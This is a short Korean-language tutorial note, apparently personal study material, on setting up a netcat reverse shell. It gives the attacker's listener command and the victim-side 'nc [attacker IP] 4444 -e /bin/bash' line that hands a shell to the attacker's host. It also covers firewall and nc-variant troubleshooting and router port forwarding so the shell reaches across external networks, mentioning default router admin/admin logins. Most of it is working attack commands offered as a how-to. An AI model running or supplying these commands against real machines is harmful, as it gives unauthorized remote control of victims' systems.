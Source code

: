 > 공격자가 서버를 열어놓고 누군가 접속하면 쉘을 따는 방식

<br>

공격자 IP는 공인IP 또는 사설IP를 사용한다.

공인아이피 조회 명령 : `$ curl [ifconfig.me](http://ifconfig.me/)`

<br>

[공격자 PC] nc서버를 열어 들어오는 서비스를 대기한다.

```php
nc -l -p 4444
```

<br>

[피해자 PC] 공격자 서버에 접속한다.

```php
nc [공격자 IP] 4444 -e /bin/bash
```

<br>

### 트러블슈팅

만약 접속해도 쉘이 따지지 않는다면 확인해보아야 할 것들이 있다. 

 (공격자 PC) 해당 포트에 대한 접근 허용

```php
sudo ufw allow 4444/tcp
```

(공격자 PC) nc -e 했을 때 에러가 뜬다면 아래 명령을 쳐서 “2”번으로 세팅 

<br>

```php
sudo update-alternatives --config nc
```

만약 같은 네트워크 안에서 통신하는 거라면 `ifconfig`로 나오는 사설IP를 사용해도 리버스쉘이 성공한다

<br>

그러나 외부 네트워크에 리버스쉘을 시도하려면 추가적인 작업이 필요하다.

<br>

### 포트포워딩

1. 라우터 IP 주소에 접속한다. `192.168.0.1` or `192.168.1.1` (초기 ID/PW는 admin/admin이다)
2. 고급 설정 - NAT,라우터 관리 - 포트포워드 설정 
    
    <img src="https://github.com/user-attachments/assets/88a56c32-9729-4782-b39b-c78115b891a3" width=600>
    

이제 다시 해보면 된다. 
